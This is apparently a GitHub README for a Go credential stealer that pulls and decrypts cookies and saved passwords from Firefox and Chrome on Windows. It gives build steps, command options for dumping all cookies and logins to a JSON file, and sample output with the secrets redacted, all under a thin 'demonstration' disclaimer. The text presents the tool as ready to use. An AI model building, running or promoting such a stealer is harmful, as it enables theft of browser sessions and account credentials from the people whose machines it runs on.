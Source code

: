 # Golang Credential Stealer
Demonstration of gaining access into cookies & login credentials. Currently only supports firefox & chrome, planning to support edge but i have no interest in any other browser since the main purpose of this repo is just as demonstration.

Special thanks to [@lclevy](https://github.com/lclevy) for their implementation of credential decrypting, all algorithms I use for decrypting firefox login credentials are just replica of [Firepwd](https://github.com/lclevy/firepwd). I just rewrite it completely in go.

Please note that any illegal action related to this program is highly discouraged, it is user's resposibility for anything done with this distribution and has nothing to do with me.

> Currently only windows is supported, and older version of firefox / chrome might be incompatible (this is intentional since most people don't use older browser anyway).
## Building
Install go compiler, > 1.18 if possible, but any version above 1.0 seems fine.
```bash
> go version
go version go1.18 windows/amd64
```

Clone this repository.
```bash
git clone https://github.com/idfp/go-stealer
```
Install required dependencies, then build it or just run as it is.
```
go build .
```

## Usage
```bash
go-stealer.exe [Options]
or
go run . [Options]
```
There's no need to pass profile directory, the program will find it by its own.

### Options
```bash
--browser               Targeted browser, by default the value is "firefox".
-b                      Shorthand for --browser.

--check-credentials     Check login credentials, by default this is turned off.
-c                      Shorthand for --check-credentials.

--dump-all              Dump all cookies instead of just a specific host, --output is required for this.
-a                      Shorthand for --dump-all

--output                JSON File to save all logged credentials.
-o                      You guessed it.

--web                   Specific host to look for when doing cookies logging.
-w                      Yes
```

### Example Usage
This is how the result will looks like, of course the private data is censored.
```bash
> go-stealer.exe -a -c -o result.json
Opening SQL File
accounts.google.com @ SMSV : [REDACTED]
.developers.google.com @ _ga : [REDACTED]
accounts.google.com @ ACCOUNT_CHOOSER : [REDACTED]
.google.com @ ANID : [REDACTED]
.fonts.google.com @ _ga : [REDACTED]

...

Site: https://id.heroku.com 
Username: ri******@gmail.com
Password: ******

Site: https://discord.com 
Username: ri******@gmail.com
Password: ******

Saving all result to result.json
```